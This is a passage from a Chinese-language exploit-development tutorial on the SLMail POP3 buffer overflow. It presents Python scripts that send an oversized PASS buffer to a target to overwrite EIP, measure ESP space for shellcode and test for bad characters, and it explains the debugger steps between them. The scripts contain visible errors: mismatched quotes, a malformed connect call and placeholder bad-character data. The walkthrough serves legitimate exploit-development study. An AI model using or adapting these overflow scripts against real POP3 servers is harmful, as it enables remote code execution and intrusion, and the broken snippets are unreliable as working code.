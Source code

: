 首先，假设目标的内存中可以存放的字符总数是 3500 个，去掉 `EIP` 寄存器中的 2606+4 个，理论上，`ESP` 中将会存放 `3500-2606+4` 个字符,由此，便可以判断 `ESP` 的容量大小是否可以作为 shellcode 的存放空间。

可在 `03.py` 脚本的基础上得到 `05.py`(其实，除了 buffer 不一样， 03.py, 04.py, 05.py, 06.py都是同一个脚本程序)

```
#!/usr/bin/python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
buffer = "A"*2606 + "B"*4 + "C"*(3500 - 2606 -4)
try:
    print "\nSending evil buffer..."
    s.connect('192.168.1.12", 110)
    data = s.recv(1024)
    s.send('USER admin' + '\r\n')
    data = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    print "\nDone!."
except:
    print "Could not connect to POP3"
```

同样，我们再次重启 SLMail 服务，并打开 Debugger 调试工具，运行脚本程序。打开 Debugger `EIP` 的内存地址被精准的修改为 `42424242`，而 `ESP` 被填满了很多的 "C"，对 `ESP` 右键选择 `Follow In Dump` ，通过界面中的 `Address` 栏， 同时为了观察的方便，将`Hex`调整为 `16bytes` 。

发现最开始出现 "C" 的地址为 `EF7A154` ，而 "C" 的结束位置是`EF7A2F4`，通过计算得到其差值为 `1A0`，装换为十进制为 `416`。 即是 `ESP` 寄存器可以存放 `416 bytes` 的数据，可以满足一条 shellcode 所需的存放空间。

似乎，只需将 shellcode 放进去就好了。。。是，想象是美好的，二进制的世界是残酷的，我们遇到的第一个问题就是 **坏字符**。

---
#### 坏字符
不同类型的程序，协议，漏洞，会将某些字符认为是坏字符，一旦在内存中出现这些字符，将会导致程序的崩溃或者锁死，或者本过滤，因为这些字符通常有固定的用途。

比如 `0x00 空子符`,`0x0D 回车`，但这只是基于我们已知的认知，是否其 `ESP` 中还存在其他坏字符呢？而如果要对 `ESP` 注入 shellcode ，又需要先将 `ESP` 中的坏字符全部挑选出来。

此时，我们需要用到脚本 `07.py` 

##### 07.py
基本原理:在 ASCII 中一个字符表示一个字节，而一个字节代表一个 8位的二进制数，从[00000000 ~ 11111111] 一共可以表示 256 个可能的字符。

那么，可以发送 0x00 ~ 0xff 共 256 个字符进行测试，以此找出所有的坏字符。

```
#!/usr/bin/python
import socket

badChars = {"---"
"---"
"---"
}

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
buffer = "A"*2606 + "B"*4 + badChars
try:
    print "\nSending evil buffer..."
    s.connect('192.168.1.12", 110)
    data = s.recv(1024)
    s.send('USER admin' + '\r\n')
    data = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    print "\nDone!."
except:
    print "Could not connect to POP3"
```
